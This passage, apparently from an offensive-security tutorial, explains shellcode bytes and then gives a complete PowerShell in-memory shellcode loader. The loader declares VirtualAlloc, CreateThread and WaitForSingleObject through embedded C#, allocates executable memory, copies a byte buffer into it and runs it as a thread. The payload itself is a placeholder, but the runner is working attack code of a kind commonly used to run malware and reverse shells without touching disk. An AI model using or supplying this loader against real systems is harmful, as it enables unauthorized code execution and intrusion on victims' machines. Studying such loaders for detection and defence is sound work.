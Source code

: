 The actual shellcode in the output above is the hex-encoded byte array, which starts with `0xfc, 0xe8, 0x82`, and so on. The hexadecimal numbers represent the instructions set on the target machine. Computers understand binary (1s and 0s), but hex numbers are just a more human-readable version. We can execute this shellcode by loading it into memory and then creating a thread for its execution. In this case, we will use PowerShell to call few Windows APIs via C# code.

```powershell
$VrtAlloc = @"
using System;
using System.Runtime.InteropServices;

public class VrtAlloc{
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);  
}
"@

Add-Type $VrtAlloc 

$WaitFor= @"
using System;
using System.Runtime.InteropServices;

public class WaitFor{
 [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);   
}
"@

Add-Type $WaitFor

$CrtThread= @"
using System;
using System.Runtime.InteropServices;

public class CrtThread{
 [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
  
}
"@
Add-Type $CrtThread   

[Byte[]] $buf = SHELLCODE_PLACEHOLDER
[IntPtr]$addr = [VrtAlloc]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $buf.Length)
$thandle = [CrtThread]::CreateThread(0, 0, $addr, 0, 0, 0)
[WaitFor]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```
